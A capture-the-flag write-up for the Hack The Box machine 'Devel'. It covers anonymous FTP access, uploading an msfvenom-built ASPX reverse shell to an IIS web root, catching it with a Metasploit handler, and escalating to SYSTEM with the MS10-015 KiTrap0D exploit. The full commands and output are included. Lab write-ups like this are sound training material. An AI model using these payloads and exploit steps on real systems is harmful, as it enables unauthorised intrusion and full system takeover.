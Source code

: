 ```yaml
---
title: "Devel"
tags:
  - Easy
  - Windows
  - FTP
  - IIS
  - File Upload
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.5 |  | [Devel](https://app.hackthebox.com/machines/devel) |  |

---

## Enumeration
---
### Nmap
---
We began with a full port scan and service enumeration using Nmap:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nmap reveals FTP allowing anonymous login and HTTP server is `Microsoft IIS 7.5` running on the target server.

### FTP
---
We logged into the FTP server via anonymous credential and discover nothing notable at this time.

```
ftp 10.10.10.5

Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49173|)
150 Opening ASCII mode data connection.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

We move onto other services for potential exploitations.

### HTTP
---
We check the website hosted on the server and are greeted by a default IIS page. Viewing the page source, we see the image source for the page is from `welcome.png`. We confirm the address `http://10.10.10.5/welcome.png` is an accessible webpage which indicates to us that we may upload a file to initiate a revershell script via FTP server.

We test this thoery by first uploading a file to the FTP server and navigate to http://10.10.10.5/test.txt to confirm the file is accessible. This confirms that the FTP service directly maps to the IIS web server.

```
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49174|)
125 Data connection already open; Transfer starting.
100% |********************************|     7      184.75 KiB/s    --:-- ETA
226 Transfer complete.
7 bytes sent in 00:00 (0.09 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49175|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-06-25  05:05AM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

![screenshot1](../assets/Devel/screenshot1.png)

## Foothold
---
To gain a foothold, we uploaded a malicious **ASPX web shell** using msfvenom to craft the payload:

```
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f aspx > shell.aspx
```

Upload the file via FTP:

```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49183|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************|  2916       47.94 MiB/s    --:-- ETA
226 Transfer complete.
```

We trigger the shell via the browser `http://10.10.10.5/shell.aspx` and set up a listener via `Metasploit` to catch the reverse shell.

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
[default LPORT was set to 4444]
run
```

We were able to gain access as `iis apppool\web`.

## Privilege Escalation
---
We use Metasploit's `post/multi/recon/local_exploit_suggester` module to identify potential privilege escalation vulnerabilities:

```
use post/multi/recon/local_exploit_suggester
set SESSION <session_number>
run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 198 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
...
```

We failed to obtain a session using the first few exploits due to IIS user not being in the `admin group`.

### MS10-015 Exploitation
---
According to NIST, [MS10-015](https://nvd.nist.gov/vuln/detail/CVE-2010-0232) is a Windows kernel privilege escalation vulnerability affecting Windows NT through Windows 7 on 32-bit systems with 16-bit application support enabled. It arises from improper validation of certain BIOS calls. Attackers can craft a malicious VDM_TIB structure in the Thread Environment Block (TEB) and invoke the NtVdmControl function to exploit the #GP trap handler (nt!KiTrap0D), enabling arbitrary code execution with system privileges.

```
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on <Your_IP>:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 3988 launched.
[*] Reflectively injecting the DLL into 3988...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (<Your_IP>:4444 -> 10.10.10.5:49188) at 2025-01-05 23:21:01 -0500

meterpreter > shell
Process 3416 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```

The user flag is in `C:\Users\babis\Desktop\user.txt` and the root flag is in `C:\Users\Administrator\Desktop\root.txt`.